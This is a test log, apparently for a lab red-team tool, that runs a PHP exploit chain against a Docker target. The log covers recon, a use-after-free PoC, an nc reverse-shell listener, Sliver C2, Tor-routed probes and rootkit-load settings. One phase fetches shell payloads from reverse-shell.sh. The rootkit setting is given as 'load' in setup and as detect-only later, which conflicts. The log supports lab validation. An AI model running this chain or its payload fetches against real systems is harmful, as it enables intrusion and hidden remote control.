

# E2E test log: `engage` full chain against a Docker target

End-to-end validation of the remote engagement mode. Target: the lab's own
nginx + PHP-FPM container (PHP 8.4.4, `session.upload_progress.enabled=1`) —
deliberately **without** the host port mapping, reached via its bridge IP.
Everything below is captured from the real run on 2026-10-27.

## Setup

**ASCII-Menü (empfohlen für Lab + LOAD):**

```bash
./vtbw-php2shell-lab up                   # FPM target
./php2shell-unchained                     # [e] → [l] Lab-Vollkette + LOAD
```

`[l]` setzt Scope `172.21.0.0/24`, `ENGAGE_MODPHP=on`, `ENGAGE_SINGULARITY=load`,
`CONFIRM_SINGULARITY_ENGAGE=VM-REBOOT-OK` und startet `engage run` gegen
`http://172.21.0.2/` (anpassbar).

**CLI (gleiches Profil):**

```bash
docker compose up -d                      # vtbw-php2shell-target (healthy)
echo '172.21.0.0/24  # RoE LAB-E2E' >> scope-authorized.txt
CONFIRM_ROE=I-AM-AUTHORIZED \
CONFIRM_SINGULARITY_ENGAGE=VM-REBOOT-OK \
ENGAGE_SINGULARITY=load ENGAGE_MODPHP=on \
ENGAGE_LHOST=172.21.0.1 ENGAGE_LPORT=4444 \
ENGAGE_C2=sliver ENGAGE_SID=e2e-20261027 ENGAGE_TERMINAL=tmux \
  vtbw-php2shell-lab engage run 'http://172.21.0.2/'
```

mod_php lab: `target-apache/` mounts + `127.0.0.1:19288` (`scripts/lab-apache-up.sh`
wartet auf `OK` vor PoC).

Host note: on the test machine the native daemon did not publish
`127.0.0.1:19281` (`docker inspect` showed `80/tcp: null` despite correct
compose config) — the run used the container IP `172.21.0.2` instead. The
target itself answered `200` with the vulnerable configuration banner.

## Phase timeline (from `out/engage/e2e-20261027/state/`)

```text
✓ 00 scope        18:29:23Z   172.21.0.2 ∈ 172.21.0.0/24 + CONFIRM_ROE
✓ 10 recon        18:29:23Z   Server: nginx/1.22.1
✓ 20 fingerprint  18:30:21Z   [FAIL] vendor-patch: PHP 8.4.4 < 8.4.27
✓ 30 exploit      18:30:24Z   UAF reachable: YES · foothold: none
✓ 40 foothold     18:30:24Z   listener spawned: nc -lvnp 172.21.0.1:4444
✓ 50 post-ex      18:30:24Z   3 sliver jobs spawned (server/listener/console)
✓ 60 report       18:30:24Z   REPORT.md written
```

## Result interpretation (honest)

| Signal | Value | Meaning |
|--------|-------|---------|
| vendor-patch | **FAIL** | PHP 8.4.4 is below the vendor fix (8.4.27) — still in PHP2Shell range |
| UAF reachable | **YES** | the stale-pointer path is reachable (`Reachable: YES` in PoC output) |
| Foothold | none | expected: the public PoC proves reachability, it is not a heap-groomed RCE |
| Listener | spawned | tmux window `listener`, `nc -lvnp 4444` on the bridge IP |
| C2 | sliver | server/listener/console jobs in separate tmux windows |

The chain stops exactly where the public research stops: reachability proven,
no weaponized RCE. That is the honest result against a stock FPM target —
and precisely what a defensive validation run should report.

## Resume + idempotency (verified)

Deleting `20/30/50.done` and running `engage resume e2e-20261027`:

- phases 10/40 skipped (markers present)
- 20 re-ran with corrected verdict parsing (`FAIL` instead of false `PASS`)
- 30 re-ran, `UAF_REACHABLE=YES` recorded
- 50 spawned 3 additional job windows — **existing windows were kept**
  (regression fixed: `term.sh` no longer kills the session when adding jobs)



## Operator menu ([e])


Wizard flow: URL → scope check (offers inline scope entry) → LHOST/LPORT
(auto-detects egress IP) → Tor opt-in → C2 profile → confirmation `ROE` → run.

## Tor egress (separate artifact)

The chain target was an internal bridge IP, so Tor was off for the probes
(routing an RFC-1918 target through an exit node makes no sense). Tor egress
itself was verified separately on the host:

```json
{"IsTor":true,"IP":"192.42.116.117"}
```

For internet-facing authorized targets, `ENGAGE_TOR=on` routes recon and
audit probes through host Tor `127.0.0.1:9050`.

## Subproject wiring (follow-up, after the first E2E)

The first E2E spawned Sliver via `lab-sliver.sh` (compose) and did **not**
fetch lukechilds payloads. That gap is closed:

- `engage kits` prints present/missing for every subproject
- phase 20 runs `patch_audit.py` on the **host** (no attacker container)
- phase 30 uses `third_party/zer061-php2shell/exploit.py` (correct path)
- phase 40 fetches https://reverse-shell.sh/LHOST:LPORT (RAAS default on)
- phase 50 starts **host** Sliver binaries when `ENGAGE_C2=sliver`
- Singularity is detect/playbook only (no `insmod` from engage)

## Issues found by this test (and fixed)

| # | Issue | Fix |
|---|-------|-----|
| 1 | Phase 30 called the PoC with `TARGET_URL` env — the script only accepts `-t/-p` | parse URL → `-t host -p port`, plus `--verify` pass |
| 2 | `term_spawn_jobs` killed the tmux session on every call → foothold listener died when post-ex spawned | `has-session` check; add windows instead |
| 3 | Fingerprint verdict grep matched `PASS` from docker build noise | parse `[PASS]`/`[FAIL]` markers, take last |
| 4 | Exploit phase recorded only shell foothold | also record `UAF_REACHABLE` from PoC output |
| 5 | Report phase list missed its own `60` entry | mark before writing |

## Artifacts of the run

```text
out/engage/e2e-20261027/
├── ENGAGEMENT.md          # session header (scope, tor, backend)
├── REPORT.md              # merged evidence
├── logs/
│   ├── 10-recon.log       # headers
│   ├── 20-fingerprint.log # vendor-patch FAIL detail
│   ├── 30-exploit.log     # PoC rounds + verify pass
│   ├── listener.log       # nc job
│   └── sliver-*.log       # C2 jobs
└── state/                 # .done markers + .env chain values
```
